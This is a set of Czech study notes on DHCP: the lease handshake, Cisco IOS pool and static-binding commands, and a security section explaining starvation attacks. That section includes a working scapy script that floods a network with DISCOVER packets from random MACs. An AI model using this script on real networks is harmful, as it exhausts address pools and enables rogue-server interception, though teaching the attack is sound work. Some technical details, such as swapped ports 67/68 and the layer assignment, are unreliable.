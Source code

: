 # DHCP - Dynamic Host Configuration Protocol

### Topika: Úvod, nastavení v IOS, security

## Úvod

port 67 - host

port 68 - server

*DHCP* je protokol nacházející se na Síťové vrstvě. Zajišťuje nám aby nové zařízení v síti mohli fungovat. Jelikož jim automaticky přiděluje potřebné věci. Jeho předchůdci jsou Reverse ARP a Bootstrap protokol. 

#### Statické DHCP
- DHCP tabulka si uchovává přiřazenou IP adresu k MAC adrese, pomocí toho tak může mít zařízení pokaždé stejnou IP ikdyž se odpojí ze sítě. Využívá se pro servery. 

##### DHCP tabulka 
- Zde si server uchovává všechny přidělené adresy.

- Ukládá se zde:
- Na jakém interface je host připojen.
- MAC adresa hosta.
- IP adresa hosta.
- Datum expirace adresy.
- Jméno hosta.

#### Přiřazení adresy
- probíhá 4 way handshakem.

> Host pošle DHCPDISCOVER na portu 68 na broadcast aby našel DHCP server
> 
> Server odpoví DHCPOFFER na portu 67 a nabídne adresu, hosta najde pomocí MAC adresy
> 
> Host pošle DHCPREQUEST na portu 68, žádá o nabídnutou IP adresu
> 
> Server odpoví DHCPACKNOWLEDGE na portu 67, server potvrzuje přiřazení adresy a zapisuje si ho do "poolu"

DHCP Přiřazuje hostům:
- IPv4 adresu
- NTP (pro analýzu)
- Gateway
- DNS server (například Cloudflare - 1.1.1.1 nebo Google - 8.8.8.8)

## Nastavení DHCP na Switchi nabo Routeru s IOS

#### Základní konfigurace DHCP
```
SW(config)#ip dhcp pool NETWORK1                          //vytvoří pool se jménem 
SW(dhcp-config)#network 192.168.190.0 255.255.255.0       //nastaví adresní rozsah
SW(dhcp-config)#default-router 192.168.190.1              //Gateway adresa
SW(dhcp-config)#dns-server 1.1.1.1 8.8.8.8                //adresy DNS serverů (můžeme nastavit až 8 adres)
SW(dhcp-config)#lease 30                                  //pronájem adresy na 30 dní, formátje den hodina minuta (tedy třeba 0 0 10 = 10 minut)
```

#### Konfigurace Statického DHCP
```
SW(dhcp-config)#host 192.168.190.9 255.255.255.0          // adresa pro klienta spolu s maskou
SW(dhcp-config)#client-identifier 0100.1217.59b0.73       // MAC adresa před kterou je typ media, 01 je pro Ethernet a tečka se posouvá
```

#### Užitečné příkazy
```
SWITCH#show ip dhcp bindings                              // seznam přidělených adres
SWITCH#clear ip dhcp bindings                             // vymaže seznam
SWITCH#show ip dhcp conflicts                             // seznam konfliktů
SW#clear ip dhcp conflicts                                // vymaže seznam konfliktů
SW#show ip dhcp pool                                      // informace o poolu
SW#show ip dhcp server statistics                         // statistiky serveru
```

## DHCP security
- Pro síť je špatně nastavené DHCP hrozba.
- Důležitá je zde port security.
- Kontrolovat jaké zařízení se napojují do sítě.

#### Startvation attack
- Útočník zahlcuje tabulku pro volne hosty pomocí scriptu. Poté můžu začít hostovat vlastní DHCP server, jelikož původní bude plný noví hostové budou dostávat adresu od útočníkovo DHCP serveru. Jelikož DHCP přiřazuje i gateway tak útočník zde může dát svoji IP adresu a jednoduše získat Man in the Middle útok.

Python script: 
- pozor jaký interface používáte
```
#!/usr/bin/python3
from scapy.all import *

conf.checkIPaddr = False  #Disable IP address checking

#Building DISCOVER packet
#Making an Ethernet packet
DHCP_DISCOVER = Ether(dst='ff:ff:ff:ff:ff:ff', src=RandMAC(), type=0x0800) \
            / IP(src='0.0.0.0', dst='255.255.255.255') \
            / UDP(dport=67,sport=68) \
            / BOOTP(op=1, chaddr=RandMAC()) \
            / DHCP(options=[('message-type','discover'), ('end')])

#Sending the crafted packet in a loop using the "eth0" interface
sendp(DHCP_DISCOVER, iface='eth0',loop=1,verbose=1 )-
```

Pro hostování DHCP serveru = https://udhcp.busybox.net/
